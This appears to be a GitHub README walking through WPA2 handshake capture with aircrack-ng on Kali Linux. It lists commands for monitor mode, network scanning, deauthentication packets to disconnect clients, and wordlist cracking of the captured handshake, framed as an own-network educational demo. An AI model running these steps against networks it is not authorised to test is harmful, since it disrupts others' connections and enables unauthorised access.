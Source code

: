 # 🛠️ WiFi Handshake Capture Demo

This is a demonstration of how to capture a WPA2 handshake using `aircrack-ng` tools.

> ⚠️ This test was performed on **my own network** for educational purposes only.

---

## 📸 Steps (with Images)

1. **Stop network services**
   ```bash
   sudo airmon-ng check kill
   ```
   ![](https://github.com/anonx5/wifi-handshake-demo/blob/main/kill_services.png)

2. **Enable monitor mode**
   ```bash
   sudo airmon-ng start wlan0
   ```
   ![](https://github.com/anonx5/wifi-handshake-demo/blob/main/enable_monitor_mode.png)

3. **Discover Wi-Fi networks**
   ```bash
   sudo airodump-ng wlan0mon
   ```
   ![](https://github.com/anonx5/wifi-handshake-demo/blob/main/scan_networks.png)

4. **Capture WPA2 handshake**
   ```bash
   sudo airodump-ng -c [CH] --bssid [BSSID] -w capture wlan0mon
   ```
   ![](https://github.com/anonx5/wifi-handshake-demo/blob/main/capture_handshake.png)

5. **Disconnect a device (for handshake)**
   ```bash
   sudo aireplay-ng --deauth 5 -a [BSSID] wlan0mon
   ```
   ![](https://github.com/anonx5/wifi-handshake-demo/blob/main/send_deauth_packets.png)

6. **Analyze handshake with a wordlist**
   ```bash
   sudo aircrack-ng -w wordlist.txt -b [BSSID] capture.cap
   ```
   ![](https://github.com/anonx5/wifi-handshake-demo/blob/main/aircrack_attempt.png)

7. **Result**
   ![](https://github.com/anonx5/wifi-handshake-demo/blob/main/cracked_success.png)

---

## 📁 Notes

- Environment: Kali Linux
- This project is strictly for learning and demonstration on your own network.
